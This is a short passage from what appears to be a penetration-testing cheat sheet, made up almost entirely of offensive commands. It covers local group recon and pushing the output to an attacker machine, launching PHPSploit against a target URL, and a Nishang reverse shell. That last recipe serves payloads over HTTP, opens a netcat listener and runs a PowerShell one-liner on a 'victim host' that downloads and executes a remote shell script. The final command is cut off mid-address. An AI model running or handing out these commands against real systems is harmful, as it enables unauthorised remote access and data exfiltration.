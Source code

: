 ```
List-HubModules
```

#### Recon Local Groups

```
Get-LocalGroup | ConvertTo-Json | Out-file groups.json

PushTo-Hub groups.json
```

### Exfiltration In the Attacker Machine

```
dos2unix groups.json

nano groups.json
```



## PHPSploit

{% embed url="https://www.github.com/nil0x42/phpsploit" %}

### Start PHPSploit

```
./phpsploit --interactive

set target <Target URL>

exploit
```



## Reverse Shell using Nishang (Windows Victim Host)

```
# Installation
sudo apt install nishang

# Nishang Default Shells Location
/usr/share/windows-binaries/nishnag/shells

# Start a python http server to share the payloads
python3 -m http.server 8080

# Start a netcat listener
nc -nlvp 1234

# Download and execute the script in the victim host
powershell iex (New-Object Net.WebClient).DownloadString('http://10.17.6.228:8080/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.17.6.2>
```
